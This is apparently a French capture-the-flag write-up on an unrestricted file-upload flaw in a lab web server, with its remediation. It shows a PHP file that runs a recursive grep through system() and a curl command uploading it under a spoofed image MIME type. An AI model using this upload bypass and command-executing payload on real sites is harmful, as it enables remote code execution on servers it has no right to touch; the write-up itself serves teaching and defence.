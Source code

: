 ## Phase 1 : Découverte de la faille

### Analyse initiale
En analysant le site web, nous avons découvert une page d'upload accessible à l'adresse suivante :
```
http://10.14.200.61/?page=upload
```

Cette page contient un formulaire HTML permettant d'uploader des fichiers. Voici le code HTML du formulaire trouvé dans la page :

```html
<form enctype="multipart/form-data" action="#" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000" />
    Choose an image to upload:
    <br />
    <input name="uploaded" type="file" /><br />
    <br />
    <input type="submit" name="Upload" value="Upload">
</form>
```

### Points importants observés :
1. **Champ `uploaded`** : Ce champ permet de sélectionner un fichier à uploader.
2. **Champ `Upload`** : Ce champ est un bouton de soumission qui envoie la requête POST.
3. **Absence de validation côté client** : Aucun mécanisme JavaScript ou HTML ne semble limiter les types de fichiers pouvant être uploadés.

### Hypothèse
Le serveur pourrait accepter des fichiers malveillants (comme des scripts PHP) déguisés en fichiers légitimes (par exemple, des images). Si ces fichiers sont exécutés après l'upload, cela pourrait permettre d'exécuter du code arbitraire sur le serveur.

---

## Phase 2 : Exploitation de la faille

### Étape 1 : Création d'un fichier PHP malveillant
Nous avons créé un fichier PHP nommé malicious.php contenant le code suivant :

```php
<?php
// Recherche la chaîne 'The flag is :' dans tous les fichiers accessibles
system("grep 'The flag is :' / -R 2>/dev/null");
echo "hello";
?>
```

#### Explication du code :
- **`system("grep 'The flag is :' / -R 2>/dev/null");`** :
  - Cette commande exécute `grep` pour rechercher la chaîne `"The flag is : "` dans tous les fichiers accessibles sur le serveur.
  - L'option `-R` effectue une recherche récursive dans tous les répertoires.
  - `2>/dev/null` redirige les erreurs vers null pour éviter d'afficher des messages d'erreur.
- **`echo "hello";`** :
  - Affiche un message simple pour confirmer que le script a été exécuté.

---

### Étape 2 : Envoi du fichier avec `curl`
Nous avons utilisé la commande suivante pour uploader le fichier malveillant :

```bash
curl -i -X POST -F Upload=Upload -F "uploaded=@./malicious.php;type=image/jpg" "http://10.14.200.61/?page=upload" | grep flag
```

#### Explication de la commande :
- **`-i`** : Inclut les en-têtes HTTP dans la réponse pour vérifier si l'upload a réussi.
- **`-X POST`** : Spécifie que la requête est une requête POST.
- **`-F Upload=Upload`** : Simule le clic sur le bouton de soumission du formulaire.
- **`-F "uploaded=@./malicious.php;type=image/jpg"`** :
  - Envoie le fichier malicious.php dans le champ `uploaded`.
  - Définit le type MIME comme `image/jpg` pour contourner les éventuelles validations côté serveur.
- **`"http://10.14.200.61/?page=upload"`** : URL de la page d'upload.
- **`| grep flag`** : Filtre la réponse pour afficher uniquement les lignes contenant le mot `flag`.

---

### Étape 3 : Résultat
Après avoir exécuté la commande, le serveur a accepté le fichier et l'a exécuté. La commande `grep` dans le fichier PHP a permis de localiser et d'afficher un flag présent sur le serveur.

---

## Phase 3 : Problèmes engendrés par cette faille

### Conséquences possibles
1. **Exécution de code arbitraire** :
   - Un attaquant peut exécuter des commandes système sur le serveur, ce qui peut compromettre l'intégrité et la sécurité du système.
   - Par exemple, il pourrait lire des fichiers sensibles comme passwd ou installer un backdoor.

2. **Vol de données sensibles** :
   - Si des fichiers contenant des informations sensibles (comme des mots de passe ou des clés API) sont accessibles, un attaquant peut les exfiltrer.

3. **Déni de service (DoS)** :
   - Un attaquant pourrait uploader un script qui consomme beaucoup de ressources, provoquant un crash du serveur.

4. **Escalade de privilèges** :
   - Si le serveur exécute le script avec des privilèges élevés, un attaquant pourrait prendre le contrôle total du système.

---

## Phase 4 : Comment corriger la faille

### 1. **Limiter les types de fichiers acceptés**
   - Vérifiez le type MIME et l'extension des fichiers uploadés côté serveur.
   - Par exemple, acceptez uniquement les fichiers images (`image/jpeg`, `image/png`) :
     ```php
     $allowed_types = ['image/jpeg', 'image/png'];
     if (!in_array($_FILES['uploaded']['type'], $allowed_types)) {
         die("Invalid file type.");
     }
     ```

### 2. **Renommer les fichiers uploadés**
   - Renommez les fichiers uploadés pour empêcher l'exécution de scripts malveillants :
     ```php
     $new_name = uniqid() . '.jpg';
     move_uploaded_file($_FILES['uploaded']['tmp_name'], "/uploads/" . $new_name);
     ```

### 3. **Désactiver l'exécution dans le répertoire d'upload**
   - Configurez le serveur pour empêcher l'exécution de fichiers dans le répertoire d'upload.
   - Exemple pour Apache (`.htaccess`) :
     ```
     <Directory "/path/to/uploads">
         php_flag engine off
     </Directory>
     ```

### 4. **Valider les entrées utilisateur**
   - Vérifiez toutes les entrées utilisateur pour éviter les injections ou les manipulations.

### 5. **Limiter les permissions du serveur**
   - Exécutez le serveur avec un utilisateur ayant des permissions minimales pour limiter les dégâts en cas de compromission.

---

## Conclusion
Cette faille d'upload de fichier est une vulnérabilité critique qui peut être exploitée pour exécuter du code arbitraire sur le serveur. En suivant les bonnes pratiques de sécurité (validation des fichiers, désactivation de l'exécution dans les répertoires d'upload, etc.), vous pouvez protéger votre application contre ce type d'attaque.

---